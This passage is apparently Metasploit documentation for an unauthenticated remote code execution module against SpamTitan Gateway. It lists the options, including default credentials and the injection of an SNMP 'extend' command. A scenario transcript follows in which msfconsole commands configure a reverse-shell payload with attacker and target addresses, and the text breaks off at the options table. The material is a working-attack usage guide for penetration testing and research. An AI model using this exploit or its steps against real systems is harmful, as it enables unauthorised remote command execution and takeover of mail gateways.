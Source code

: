 ### TARGETURI
The base path to SpamTitan. Default value is `/`.

### USERNAME
The username to authenticate, if required (depending on SpamTitan Gateway
version). Default value is `admin`.

### PASSWORD
The password to authenticate, if required (depending on SpamTitan Gateway
version). Default value is `hiadmin`.

### COMMUNITY
The SNMP Community String to use (random string by default).

### ALLOWEDIP
The IP address that will be allowed to query the injected `extend` command.
This IP will be added to the SNMP configuration file on the target. This is
typically this host IP address, but can be different if your are in a NAT'ed
network. If not set, `LHOST` will be used instead. If `LHOST` is not set, it
will default to `127.0.0.1`.

### SNMPPORT
The target SNMP port (UDP). Default port is `161`.

## Scenarios

### SpamTitan Gateway v7.01 - target 0 (in-memory command)

```
msf > use exploit/freebsd/webapp/spamtitan_unauth_rce
[*] Using configured payload cmd/unix/reverse
msf exploit(freebsd/webapp/spamtitan_unauth_rce) > set LHOST 172.16.60.1
LHOST => 172.16.60.1
msf exploit(freebsd/webapp/spamtitan_unauth_rce) > set RHOSTS 172.16.60.101
RHOSTS => 172.16.60.101
msf exploit(freebsd/webapp/spamtitan_unauth_rce) > set verbose true
verbose => true
msf exploit(freebsd/webapp/spamtitan_unauth_rce) > show options

Module options (exploit/freebsd/webapp/spamtitan_unauth_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ALLOWEDIP                   no        The IP address that will be allowed to query the injected `extend` command. This IP will be added to the SNMP configuration file on the target. This is typically this host IP address, but can be different if your are in a NAT'ed network. If not set, `LHOST` will be used instead. If `LHOST` is not set, it will default to `127.0.0.1`.
   COMMUNITY  BTMlXXtt         no        The SNMP Community String to use (random string by default)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RETRIES    1                yes       SNMP Retries
   RHOSTS     172.16.60.101    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (UDP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
```